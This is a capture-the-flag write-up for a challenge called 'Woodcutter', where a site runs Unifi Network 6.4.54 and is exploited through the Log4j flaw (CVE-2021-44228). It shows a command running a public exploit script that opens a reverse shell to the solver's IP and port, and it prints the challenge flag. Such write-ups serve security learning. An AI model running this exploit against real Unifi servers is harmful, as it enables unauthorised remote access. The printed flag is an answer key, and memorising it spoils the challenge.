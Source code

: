 # Woodcutter
> Once upon a time in a quiet forest village, lived a woodcutter named Tom known for his exceptional axe skills. A stranger named Mr. Smith, a software engineer, approached Tom, seeking wood for his Java project, unknowingly sparking an unlikely adventure at the intersection of nature and technology.

## About the Challenge
We have been given a website that uses `Unifi Network` version `6.4.54`

![preview](images/preview.png)

## How to Solve?
Because of the website is using older version of the Unifi network, I immediately searched on Google using the following keyword

```
Unifi 6.4.54 exploit
```

![google](images/google.png)

It appears that this version is vulnerable to the Log4j vulnerability (CVE-2021-44228). To exploit the website, I am using this [GitHub Repository](https://github.com/puzzlepeaches/Log4jUnifi) to perform a reverse shell by running this command

```
python3 exploit.py -u https://woodcutter.winja.org -i <IP> -p <PORT>
```

And then check our server and voilà! To obtain the flag we need to run `cat /flag.txt` command

![flag](images/flag.png)

```
flag{0c6ad466c5800fe77ec1435a38870548_Lo94J-0K3S-4-TH0N}
```
